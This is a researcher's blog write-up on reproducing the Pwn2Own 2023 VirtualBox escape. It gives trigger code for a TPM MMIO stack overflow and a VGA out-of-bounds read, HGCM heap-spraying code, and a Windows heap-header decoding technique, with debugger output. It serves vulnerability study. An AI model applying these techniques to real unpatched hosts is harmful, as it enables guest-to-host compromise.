





## Introduction

Hi, I am Trung (xikhud). Last month, I joined [Qrious security team](https://twitter.com/qriousec) as a new member, and my first target was to find and reproduce the security bugs that [@bienpnn](https://twitter.com/bienpnn) used at the Pwn2Own Vancouver 2023 to escape the VirtualBox VM.

Since VirtualBox is an open-source software, I can just download the source code from their homepage. The [version](https://download.virtualbox.org/virtualbox/7.0.6/VirtualBox-7.0.6.tar.bz2) of VirtualBox at the time of the Pwn2Own competition was 7.0.6.

## Exploring VirtualBox

### Building VirtualBox

The very first thing I did is to build the VirtualBox and to have a debugging environment. VirtualBox's developers have published a [very detail guide](https://www.virtualbox.org/wiki/Windows%20build%20instructions) to build it. My setup is below:

- Host: Windows 10
- Guest: Windows 10. **VirtualBox will be built on this machine.**
- Guest 2 (the guest inside the VirtualBox VM): [LUbuntu 18.04.3](https://www.osboxes.org/lubuntu/)

If you are new to VirtualBox exploitation, you may wonder why I need to install a nested VM. The reason is that VirtualBox contains both kernel mode and user mode components, so I have to install it inside a VM to debug its kernel things.

> The official building guide offers using VS2010 or VS2019 to build VirtualBox, but you have to use VS2019 to build the version 7.0.6.
>
> You can use any other operating system for Guest 2. I choose LUbuntu because it is lightweight. (I have a potato computer lol).

### Learning VirtualBox source code

VirtualBox source code is large, I can't just read all of them in a short amount of time. Instead, I find blog posts about pwning VirtualBox on Google and read them. These posts not only show how to exploit VirtualBox but also describe how VirtualBox works, its architecture and stuff like that. These are the very good write-ups that I also recommend you to read if you want to start learning VirtualBox exploitation:

- [https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/](https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/)
- [https://secret.club/2021/01/14/vbox-escape.html](https://secret.club/2021/01/14/vbox-escape.html)
- [https://github.com/MorteNoir1/virtualbox_e1000_0day](https://github.com/MorteNoir1/virtualbox_e1000_0day)

The VirtualBox architecture is as follow (the picture is taken from [Chen Nam's slide at HITB2021](https://conference.hitb.org/hitbsecconf2021ams/materials/D2T2%20-%20Discovering%2010+%20Vulnerabilities%20in%20Virtualbox%20-%20Chen%20Nan.pdf))



The simple rule I learned is that when the guest wants to emulate a device, it send a request to the host's kernel drivers (R0) first. The host's kernel have two choices:

- It can handle that request
- Or it can return `VINF_XXX_R3_YYYY_ZZZZ`. This value means that it doesn't want to handle the request and the request will be handled by the host's user mode components (R3).

The source code for R0 and R3 is usually in the same file, the only different thing is the preprocessors.

- `#define IN_RING3` corresponds to R3 components
- `#define IN_RING0` corresponds to R0 components
- `#define IN_RC`: I don't know what this is, maybe someone knows can tell me ...

For example, let's look at the code in the `DevTpm.cpp` file:



In the image above, when the R0 component receives this request, it will pass to R3 component. The return code (`rc`) is `VINF_IOM_R3_MMIO_WRITE`. According to the source code comment, it is "**Reason for leaving RZ: MMIO write**". There are other similar values: `VINF_IOM_R3_MMIO_READ`, `VINF_IOM_R3_IOPORT_WRITE`, `VINF_IOM_R3_IOPORT_READ`, ...

If you want to know more detail about VirtualBox architechture, I suggest you to read the [slide by Chen Nam.](https://conference.hitb.org/hitbsecconf2021ams/materials/D2T2%20-%20Discovering%2010+%20Vulnerabilities%20in%20Virtualbox%20-%20Chen%20Nan.pdf) You can also watch his video [here](https://www.youtube.com/watch?v=_4kttxArxuk).

After having a basic understanding about VirtualBox, the next thing I did is to find some attack vectors. Usually, with VirtualBox, the attack scenario will be an untrusted code running within the guest machine. It will communicate with the host to compromise it. There are two methods a guest OS can talk to the host:

- Using memory mapped I/O
- Using port I/O

These are usually the entry points of an attack, so I look at them first when auditing.

The memory mapped region can be created by these functions:

- `PDMDevHlpMmioCreateAndMap`
- `PDMDevHlpMmioCreateExAndMap`
- `...`

The IO port can be created by:

- `PDMDevHlpIoPortCreateFlagsAndMap`
- `PDMDevHlpPCIIORegionCreateIo`
- `PDMDevHlpPCIIORegionCreateMmio2Ex`
- `...`

With memory mapped, we can use the `mov` or similar instructions to communicate with the host. Meanwhile, we use `in`, `out` instruction when we work with IO port.

Now I have more understanding about VirtualBox, I can start to look for bugs now. To reduce the time, [@bienpnn](https://twitter.com/bienpnn) gave me 2 hints:

- The OOB write bug is in the TPM components
- The OOB read bug is in the VGA components

Knowing that, I open the source code and read files in `src/VBox/Devices/Security` and `src/VBox/Devices/Graphics` folders.

### The OOB write bug
>
> At Pwn2Own, the TPM 2.0 is enabled. It is required to run Windows 11 inside VirtualBox. You will have to enable it manually in the VirtualBox GUI, if you don't, then the exploit here won't work.

The TPM module is initialized by the two functions `tpmR3Construct` (R3) and `tpmRZConstruct` (R0). Both functions register `tpmMmioRead` and `tpmMmioWrite` to handle read/write to memory mapped region.

```cpp
    rc = PDMDevHlpMmioCreateAndMap(pDevIns, pThis->GCPhysMmio, TPM_MMIO_SIZE, tpmMmioWrite, tpmMmioRead,
                                   IOMMMIO_FLAGS_READ_PASSTHRU | IOMMMIO_FLAGS_WRITE_PASSTHRU,
                                   "TPM MMIO", &pThis->hMmio);
```

The memory region is at `pThis->GCPhysMmio`, which is `0xfed40000` by default.

To confirm the communication works as expected, I put a (R0) breakpoint at `VBoxDDR0!tpmMmioWrite` and write a small C code to run inside the VirtualBox.

```cpp
void *map_mmio(void *where, size_t length)
{
    int fd = open("/dev/mem", O_RDWR | O_SYNC);
    if (fd == -1) { /* error */ }
    void *addr = mmap(NULL, length, PROT_READ | PROT_WRITE, MAP_SHARED, fd, (off_t)where);
    if (addr == NULL) { /* error */ }
    return addr;
}

int main()
{
    volatile uint8_t* mmio_tpm = (uint8_t *)map_mmio((void *)0xfed40000, 0x5000);
    mmio_tpm[0x200] = 0xFF;
    return 0;
}
```

The breakpoint hit! It works. This is the signature of the `tpmMmioWrite` function:

```cpp
static DECLCALLBACK(VBOXSTRICTRC) tpmMmioWrite(PPDMDEVINS pDevIns, void *pvUser, RTGCPHYS off, void const *pv, unsigned cb);
```

At the time the breakpoint hit, `off` is `0x200` (which is the offset from the start of the memory mapped buffer), `cb` is the number of byte to read, in this case it is `0x1` since we only write 1 byte, `pv` is the host buffer contains the values supplied by the guest OS, in this case it contains `0xFF` only. If we want to write more bytes, we can write it in C like this:

```cpp
*(uint32_t*)(mmio_tpm + 0x200) = 0xFFAABBCC;
```

In assembly form, it will be something like this:

```
mov dword ptr [rdx], 0xFFAABBCC 
```

In this case, `cb` will be `0x4`.

The `tpmMmioWrite` function looks fine, after confirming the is no bug in it, I look at `tpmMmioRead`.

```cpp
static DECLCALLBACK(VBOXSTRICTRC) tpmMmioRead(PPDMDEVINS pDevIns, void *pvUser, RTGCPHYS off, void *pv, unsigned cb)
{
    /* truncated */
    uint64_t u64;
    /* truncated */
        rc = tpmMmioFifoRead(pDevIns, pThis, pLoc, bLoc, uReg, &u64, cb);
    /* truncated */
    return rc;
}

static VBOXSTRICTRC tpmMmioFifoRead(PPDMDEVINS pDevIns, PDEVTPM pThis, PDEVTPMLOCALITY pLoc,
                                    uint8_t bLoc, uint32_t uReg, uint64_t *pu64, size_t cb)
{
    /* ... */
    /* Special path for the data buffer. */
    if (   (   (   uReg >= TPM_FIFO_LOCALITY_REG_DATA_FIFO
               && uReg < TPM_FIFO_LOCALITY_REG_DATA_FIFO + sizeof(uint32_t))
            || (   uReg >= TPM_FIFO_LOCALITY_REG_XDATA_FIFO
                && uReg < TPM_FIFO_LOCALITY_REG_XDATA_FIFO + sizeof(uint32_t)))
        && bLoc == pThis->bLoc
        && pThis->enmState == DEVTPMSTATE_CMD_COMPLETION)
    {
        if (pThis->offCmdResp <= pThis->cbCmdResp - cb)
        {
            memcpy(pu64, &pThis->abCmdResp[pThis->offCmdResp], cb);
            pThis->offCmdResp += (uint32_t)cb;
        }
        else
            memset(pu64, 0xff, cb);
        return VINF_SUCCESS;
    }
}
```

You can see that there is a branch of code that does a `memcpy` into the `u64`, which is a stack variable of `tpmMmioRead` function. To be able to reach this branch, `uReg`, `bLoc` and `pThis->enmState` must have appropriate values. But don't worry because we can control all of them, we can also control `pThis->offCmdResp` and `pThis->abCmdResp`. There is no check to make sure `cb <= sizeof(uint64_t)`, so maybe there is a stack buffer overflow here? Now I have to find a way to make `cb` larger than `sizeof(uint64_t)` (8). I google and found that some AVX-512 instructions can read up to 512 bits (64 bytes) memory. Since my CPU doesn't support AVX-512, I try AVX2 instead:

```cpp
__m256 z = _mm256_load_ps((const float*)off);
```

Indeed, it works! `cb` is now `0x20` and I can overwrite 0x18 bytes after `u64` variable. But the is a problem: `u64` is behind the return address of `VBoxDDR0!tpmMmioRead`. Let's look at the stack when RIP is at the very first instruction of `VBoxDDR0!tpmMmioRead`:

```
2: kd> dq @rsp
ffffbb80`814920a8  fffff804`d2432993 ffff8901`0ecc0000
ffffbb80`814920b8  000fffff`fffff000 ffff8901`0edc6760
ffffbb80`814920c8  fffff804`d243418b 00000000`00000020
ffffbb80`814920d8  fffff804`d2458b1d ffffe289`26bf7000
ffffbb80`814920e8  00000000`00000020 ffff8901`0ede4000
ffffbb80`814920f8  00000000`00000080 ffff8901`0ecc0000
ffffbb80`81492108  fffff804`d243313f ffffe289`26b87188
ffffbb80`81492118  fffff804`d2451c8b 00000000`fed40080
```

Remember that the return address is at `0xffffbb80814920a8`. Now let's run until RIP is at `call VBoxDDR0!tpmMmioFifoRead`:

```
2: kd> dq @rsp
ffffbb80`81492060  ffff8901`0ecc0000 00000000`00000000
ffffbb80`81492070  00000000`00000060 fffff804`d253ba1b
ffffbb80`81492080  00000000`00000080 ffffbb80`814920b0 <-- pu64
ffffbb80`81492090  00000000`00000020 00000000`00000018
ffffbb80`814920a0  ffff8901`0ede4140 fffff804`d2432993 <-- R.A
ffffbb80`814920b0  ffff8901`0ecc0000 ffffe289`26b87188
ffffbb80`814920c0  00000000`00000080 fffff804`d243418b
ffffbb80`814920d0  00000000`00000020 fffff804`d2458b1d
```

Based on the x64 Windows calling convention, the 5th argument is at `[rsp+0x28]`, so the address of `u64` is `0xffffbb80814920b0`, which is behind the return address (`0xffffbb80814920a8`). ~~Why does this happen? I don't really know, but I guess this is some kind of compiler optimization~~. Let's check `tpmMmioRead` in IDA:

```c
unsigned __int64 pu64; // [rsp+50h] [rbp+8h] BYREF
```

The assembly code:

```
.text:000000014002BA10 000   mov     [rsp+10h], rbx
.text:000000014002BA15 000   mov     [rsp+18h], rsi
.text:000000014002BA1A 000   push    rdi
.text:000000014002BA1B 008   sub     rsp, 40h
.text:000000014002BA1F 048   mov     rdx, [rcx+10h]  ; pThis
```

`pu64` is at `[rsp+0x50]`, but the function only allocate 0x48 bytes for the stack. Clearly, `pu64` is outside of the stack frame range. So in which function stack frame does this variable belong to? Well, it is right next to the return address, so it is in the [shadow space](https://stackoverflow.com/questions/30190132/what-is-the-shadow-space-in-x64-assembly). Turned out that, the shadow space is used to make debugging easier. But we are using the "Release" build, so it will use the shadow space as if it is a normal space. We can overwrite 0x18 bytes after the `u64` variable. Unfortunately, there is no data after `u64` so we can't do anything. I'm stuck now. Maybe if my CPU supports AVX-512, I can do something? Until now, [@bienpnn](https://twitter.com/bienpnn) told me that there is an instruction which can read up to 512 bytes. It is `fxrstor`, which is used to restore x87 FPU, MMX, XMM, and MXCSR state. Knowing this, I tried this code:

```cpp
_fxrstor64((void*)off);
```

And then, VirtualBox.exe crashed! That's good. But wait, why does it crash without first hitting the breakpoint at `VBoxDDR0!tpmMmioRead`? Turned out that all the request with `cb >= 0x80` will be handled by R3 code. This is the comment in `src\VBox\VMM\VMMAll\IOMAllMmioNew.cpp`:

```cpp
/*
 * If someone is doing FXSAVE, FXRSTOR, XSAVE, XRSTOR or other stuff dealing with
 * large amounts of data, just go to ring-3 where we don't need to deal with partial
 * successes.  No chance any of these will be problematic read-modify-write stuff.
 *
 * Also drop back if the ring-0 registration entry isn't actually used.
 */
```

Let's trigger this bug again. But this time we will set a breakpoint at `VBoxDD!tpmMmioRead` instead. And now I can see a stack buffer overflow.



Really nice. Now we have RIP controlled, but don't know where to jump. We need a leak.

### The OOB read bug

The OOB read bug is inside `VGA` module. There are a lot of files belong to this module, but I choose to read `DevVGA.cpp` first, since the name looks like the main file of VGA module. I look at the 2 construction functions to see which IO port or memory mapped is used. I found that the `vgaMmioRead` will handle the MMIO request, it will then call `vga_mem_readb`. And inside this function, I found the code below (we can control `addr`):

```cpp
pThis->latch = !pThis->svga.fEnabled            ? ((uint32_t *)pThisCC->pbVRam)[addr]
             : addr < VMSVGA_VGA_FB_BACKUP_SIZE ? ((uint32_t *)pThisCC->svga.pbVgaFrameBufferR3)[addr] : UINT32_MAX;
```

`pThis->svga.fEnabled` is `true` so we only care about this line:

```cpp
addr < VMSVGA_VGA_FB_BACKUP_SIZE ? ((uint32_t *)pThisCC->svga.pbVgaFrameBufferR3)[addr] : UINT32_MAX;
```

`VMSVGA_VGA_FB_BACKUP_SIZE` is the size of `pThisCC->svga.pbVgaFrameBufferR3`. Maybe you can see what's wrong here.

```cpp
((uint32_t *)pThisCC->svga.pbVgaFrameBufferR3)[addr]
```

is equivalent to:

```cpp
*(uint32_t *)(pThisCC->svga.pbVgaFrameBufferR3 + sizeof(uint32_t) * addr)
// note that the type of pThisCC->svga.pbVgaFrameBufferR3 is uint8_t[]
```

The code checks if `addr < VMSVGA_VGA_FB_BACKUP_SIZE`, but actually uses `4 * addr` for indexing. It means that we have an OOB read here. Untill now, I thought that it will be easy because with a leak and a stack buffer overflow, I would easily do a ROP chain. But I regret soon when I see that the heap layout is not static, it changes everytime I open a new VirtualBox process. The reason for this is because VirtualBox is a very complex software, so heap allocations are made everywhere, which changes the shape of the heap.

### Exploitation

Now I need a reliable way to have a leak. For this, I will use [heap spraying technique](https://en.wikipedia.org/wiki/Heap_spraying). So my plan is to poison the heap with a lot of objects that I control, and (hopefully) some of the objects will be right behind the `pbVgaFrameBufferR3` buffer so that I can use the OOB read to leak information. [sauercl0ud](https://twitter.com/Sauercl0ud) team had already written a nice [blog post](https://secret.club/2021/01/14/vbox-escape.html) about exploiting VirtualBox. Inside the post, they sprayed the heap with `HGCMMsgCall` objects, I will just use `HGCMMsgCall` too, because why not :D ?

#### What is HGCM?

HGCM is an abbreviation for "Host/Guest Communication Manager". This is the module used for communication between the host and the guest. For example, they need to talk to each other in order to implement the "Shared Clipboard", "Shared Folder", "Drag and drop" services.

Here's how it works. The guest inside VirtualBox will have to install additional drivers, a.k.a the guest additions. When the guest wants to use one of the service above, it will send a message to the host through IO port, the message is represented by the `HGCMMsgCall` struct.

```
0:035> dt VBoxC!HGCMMsgCall
   +0x000 __VFN_table : Ptr64 
   +0x008 m_cRefs          : Int4B
   +0x00c m_enmObjType     : HGCMOBJ_TYPE
   +0x010 m_u32Version     : Uint4B
   +0x014 m_u32Msg         : Uint4B
   +0x018 m_pThread        : Ptr64 HGCMThread
   +0x020 m_pfnCallback    : Ptr64     int 
   +0x028 m_pNext          : Ptr64 HGCMMsgCore
   +0x030 m_pPrev          : Ptr64 HGCMMsgCore
   +0x038 m_fu32Flags      : Uint4B
   +0x03c m_rcSend         : Int4B
   +0x040 pCmd             : Ptr64 VBOXHGCMCMD
   +0x048 pHGCMPort        : Ptr64 PDMIHGCMPORT
   +0x050 pcCounter        : Ptr64 Uint4B
   +0x058 u32ClientId      : Uint4B
   +0x05c u32Function      : Uint4B
   +0x060 cParms           : Uint4B
   +0x068 paParms          : Ptr64 VBOXHGCMSVCPARM
   +0x070 tsArrival        : Uint8B
```

This object is perfect because:

- It has a `vtable` pointer -> We can leak a library address
- It has `m_pNext` and `m_pPrev`, which points to next and previous `HGCMMsgCall` in a doubly linked list -> Also good, can be used to leak heap address.

Now I will spray the heap with a lot of `HGCMMsgCall`. This code is just copied from [Sauercl0ud blog](https://secret.club/2021/01/14/vbox-escape.html):

```cpp
void spray()
{
    int rc;
    for (int i = 0; i < 64; ++i)
    {
        int32_t clientId;
        rc = hgcm_connect("VBoxGuestPropSvc", &clientId);
        for (int j = 0; j < 16 - 1; ++j)
        {
            char pattern[0x70];
            char out[2];
            rc = wait_prop(clientId, pattern, strlen(pattern) + 1, out, sizeof(out)); // call VBoxGuestPropSvc HGCM service, this will allocate a HGCMMsgCall
        }
    }
}
```

After some observation, I realize that the `vtable` is usually `0x7F??????AD90`. Only the `?` part is randomized, I will use this information to identify a `HGCMMsgCall` on the heap. My approach is simple: I just keep reading a qword (8 bytes) each time, called `X`. I will then check if `(X & 0xFFFF) == 0xAD90` and `(X >> 40) == 0x7F`. If this is true, we likely to reach a `HGCMMsgCall`, and X is the `vtable` pointer. To leak heap address, I will do like this (this idea is also taken from [Sauercl0ud blog](https://secret.club/2021/01/14/vbox-escape.html)):

- Find a `HGCMMsgCall` on the heap. Let's call this object `A` and let's call `a` the offset from the `pbVgaFrameBufferR3` buffer to this object.
- Find another `HGCMMsgCall`. `B` and `b` are the same as above, and `b > a`.
- If `A->m_pNext - B->m_pPrev == b - a`, then it's likely that `A->m_pNext` is the address of `B`. It means that `A->m_pNext - b` is the address of `pbVgaFrameBufferR3` buffer.

> Actually I don't need a heap leak to make a ROP chain, only a DLL leak is enough. But I want to show you this method so that you can make a longer ROP chain in case you need it.

Now I have enough information to write an exploit.

#### Testing out the exploitation idea

I implement the idea above, and run the exploit for 20 times and not a single time success. That's 0% of success rate, very bad. Most of the time, VirtualBox just crashes. I attached a debugger and ran the exploit again, the crash happened when trying to read an address that had not been mapped. Turned out that I could read up to `0x180000` bytes (1.5MB) after the `pbVgaFrameBufferR3` buffer, but most of the time there is only about ~ `0xC0000` bytes that had been mapped. Another crash I found is when the exploit was trying to read an address inside a guard page. Another problem I had is that the exploit run really slow, because the OOB bug only lets me read 1 byte at a time. I need to improve the speed of the exploit as well.

#### Parsing heap header to avoid unmmaped pages and increase speed

Until now, I have a new idea: parsing the heap chunk headers on the heap to gain more information. First thing I want to do is to read some information about a chunk, for example, the size of the chunk, is it freed or in used? If I can do this, maybe I will be able to skip some unnecessary chunks. To make this idea come true, I have to learn some Windows heap internal. I recommend you to read these:

- [Windows 10 NT heap internals](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version)
- [Windows 8 heap internals](https://illmatics.com/Windows%208%20Heap%20Internals%20(Slides).pdf)

Basically, a heap chunk is represented by `_HEAP_ENTRY` structure:

```
0:035> dt _HEAP_ENTRY
ntdll!_HEAP_ENTRY
    ...
   +0x008 Size             : Uint2B
   +0x00a Flags            : UChar
    ...
   +0x00c PreviousSize     : Uint2B
    ...
```



`Size` is the size of the chunk (include the header itself), `PreviousSize` is the size of the previous chunk (in memory), and `Flags` contains extra information about a chunk, for example: is it free or in used.

> Actually `Size` (and `PreviousSize`) is the size of a chunk in **blocks**, not in bytes. 1 block is 16 bytes in length.

Parsing heap header is easy. 16 bytes after `pbVgaFrameBufferR3` is the chunk header of a chunk, so I can read it, get the `Size` and just do it again ... But there is a problem: the chunk header is encoded, it is xorred with `_HEAP->Encoding`. I will give you an example.

```
0:042> !heap -i 26855e40000             
Heap context set to the heap 0x0000026855e40000
0:042> db 0000026859f1f010 L0x10
00000268`59f1f010  0c 00 02 02 2e 2e 00 00-dd e0 1a 38 cd be b2 10  ...........8....
0:042> !heap -i 0000026859f1f010 
Detailed information for block entry 0000026859f1f010
Assumed heap       : 0x0000026855e40000 (Use !heap -i NewHeapHandle to change)
Header content     : 0x381AE0DD 0x10B2BECD (decoded : 0x08010801 0x10B28201)
Owning segment     : 0x00000268593f0000 (offset b2)
Block flags        : 0x1 (busy )
Total block size   : 0x801 units (0x8010 bytes)
Requested size     : 0x8000 bytes (unused 0x10 bytes)
Previous block size: 0x8201 units (0x82010 bytes)
Block CRC          : OK - 0x8  
Previous block     : 0x0000026859e9d000
Next block         : 0x0000026859f27020
```

The output of `!heap -i` said that the header content is `0x381AE0DD 0x10B2BECD`, but after decoded it is `0x08010801 0x10B28201`. Let's confirm this

```
0:042> db 0000026859f1f010 L0x10
00000268`59f1f010  0c 00 02 02 2e 2e 00 00-dd e0 1a 38 cd be b2 10  ...........8....
0:042> dt _HEAP
ntdll!_HEAP
   +0x000 Segment          : _HEAP_SEGMENT
    ...
   +0x080 Encoding         : _HEAP_ENTRY // <-- The key to decode
    ...
0:042> dq 26855e40000+0x80 L2
00000268`55e40080  00000000`00000000 00003ccc`301be8dc
```

So the key is `0x00003ccc301be8dc`. `0x00003ccc301be8dc ^ 0x10b2becd381ae0dd = 0x10b2820108010801`, which is exactly what shown in `!heap -i` command.

So to parse a chunk header, we need to leak the `_HEAP->Encoding`. I can't not directly leak it but I have an idea to calculate it. `pbVgaFrameBufferR3` has the size of `0x80010` bytes (include the header), so the chunk right behind it (let's call this chunk `A`) must have `PreviousSize` equals to `0x8001`. Knowing this, I can calculate 2 bytes key to decode `PreviousSize`.

```
KeyToDecodePreviousSize = A->PreviousSize ^ 0x8001
```

Next, I find another chunk after chunk `A`, let's call this chunk `B`. `B` is likely to be a valid chunk if:

```
(B->PreviousSize ^ KeyToDecodePreviousSize) << 4 == Distance between A and B
```

`B->PreviousSize ^ KeyToDecodePreviousSize` is also the value of `A->Size ^ KeyToDecodeSize`, so:

```
KeyToDecodeSize = B->PreviousSize ^ KeyToDecodePreviousSize ^ A->Size
```

Now I am able to decode `Size` and `PreviousSize`. What about the `Flags`? I don't know a good way to decode it, so I just run VirtualBox multiple times and observe that most of the time chunk `A` is in used. So if any other chunk has the LSB bit of `Flags` equals to the LSB bit of `A->Flags`, then it is also in used and vice versa. With this informaton, I can walk the heap easily, the algorithm looks like this:

```cpp
uint32_t curOffset = 0x80000;
while (curOffset < 0x200000) { // 0x200000 is the maximum we can touch
    HEAP_ENTRY hE;
    readHeapEntry(curOffset, &hE);
    if (isInUsed(&hE))
        findSprayedObjects(curOffset, &hE);
    curOffset += ((hE.Size ^ KeyToDecodeSize) << 4); // 1 block is 16 bytes
}
```

Now my exploit runs a lot faster, also the success rate is increased a little. But sometime the exploit still crashed VirtualBox. I attach Windbg and see that it was trying to access a guard page, and this guard page is inside an in-used chunk. After a few days of researching, I finally knew that chunk was a `UserBlocks`.

#### How does LFH work and what is a `UserBlocks`?

Quoted from [Microsoft](https://learn.microsoft.com/en-us/windows/win32/memory/low-fragmentation-heap):
> Heap fragmentation is a state in which available memory is broken into small, noncontiguous blocks. When a heap is fragmented, memory allocation can fail even when the total available memory in the heap is enough to satisfy a request, because no single block of memory is large enough. The low-fragmentation heap (LFH) helps to reduce heap fragmentation. The LFH is not a separate heap. Instead, it is a policy that applications can enable for their heaps. When the LFH is enabled, the system allocates memory in certain predetermined sizes

When an application makes more than 17 allocations of the same size, the LFH will be turned on (for that size only). We spray a lot of objects (more than 17), so they will all be served by the LFH. Basically this is how LFH works:

- A big chunk will be allocated, this is a `UserBlocks` struct. A `UserBlocks` contains some metadata and a lot of small chunks.
- Any heap allocation after that will return a (freed) small chunk in the `UserBlocks`.

A `UserBlocks` is represented by a `_HEAP_USERDATA_HEADER` struct:

```
0:042> dt _HEAP_USERDATA_HEADER
ntdll!_HEAP_USERDATA_HEADER
   +0x000 SFreeListEntry   : _SINGLE_LIST_ENTRY
   +0x000 SubSegment       : Ptr64 _HEAP_SUBSEGMENT
   +0x008 Reserved         : Ptr64 Void
   +0x010 SizeIndexAndPadding : Uint4B
   +0x010 SizeIndex        : UChar
   +0x011 GuardPagePresent : UChar
   +0x012 PaddingBytes     : Uint2B
   +0x014 Signature        : Uint4B
   +0x018 EncodedOffsets   : _HEAP_USERDATA_OFFSETS
   +0x020 BusyBitmap       : _RTL_BITMAP_EX
   +0x030 BitmapData       : [1] Uint8B
```



There is 2 important things to note here:

- The `_HEAP_USERDATA_HEADER` is not encoded like the `HEAP_ENTRY`. A `UserBlocks` is also a regullar chunk, so it is in the "user data" part of another `HEAP_ENTRY`.
- `Signature` is always `0xF0E0D0C0`, so we can easily find it in the heap.
- `GuardPagePresent`: if this is non zero, the `UserBlocks` has a page guard at the end, so we can skip `0x1000` bytes at the end, preventing crashes.
- `BusyBitmap` contains the address of `BitmapData`. This can be used as a reliable way to leak heap address too

